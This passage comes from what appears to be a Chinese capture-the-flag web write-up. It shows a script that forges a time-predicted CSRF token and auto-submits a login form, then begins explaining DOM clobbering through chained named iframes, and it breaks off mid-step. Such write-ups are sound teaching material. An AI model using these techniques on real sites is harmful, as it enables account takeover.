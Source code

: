 ```html
            document.loginform.username.value = 'admint';
            document.loginform.password.value = 'admint';
            document.loginform.csrftoken.value = text;
            console.log(document.loginform.username.value,document.loginform.password.value,document.loginform.csrftoken.value);
            document.loginform.submit();
          });
        });
}
      </script>
  </body>

</html>

```

生成tocken的关键代码如下:

```python
import hashlib
import math
import time

def encode():
    s = str(time.time_ns())[:-6:]
    f = int(s) / 1000
    sin = math.sin(f)
    text=sin
    sha = hashlib.sha256()  # Get the hash algorithm.
    sha.update(str(text).encode())  # Hash the data.
    b = sha.hexdigest()  # Get he hash value.
    print(s,f,sin,b)
    return b
```

之后多次尝试直到自己的账号变为admin账户后去访问、flag可以获得第一段flag

看一下第二部分flag获取的代码逻辑:

![image-20220630185100950](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-7e0d407fac307cec90be0faeb140b2701578eded.png)

之后通过定义标签属性`name=fff`从而使得nodejs后台获得的fff为该标签对象

至于去标签的lll.aaa.ggg的过程有两种解决方法:

1. 方法一是通过逐个页面定义获取属性值最后得到`this_is_what_i_want`
    
    
    1. 1.html定义一个`name=fff`的iframe标签,直接添加src为含有`name=lll`子标签的的下一个html页面2.html
        
        ```html
        <html>
          <!-- 1.html -->
          <iframe name=fff src="2.html">
        </html>
        ```
    2. 2.html页面中定义一个标签`name=lll`的标签,指向含有`name=ggg`的3.html
        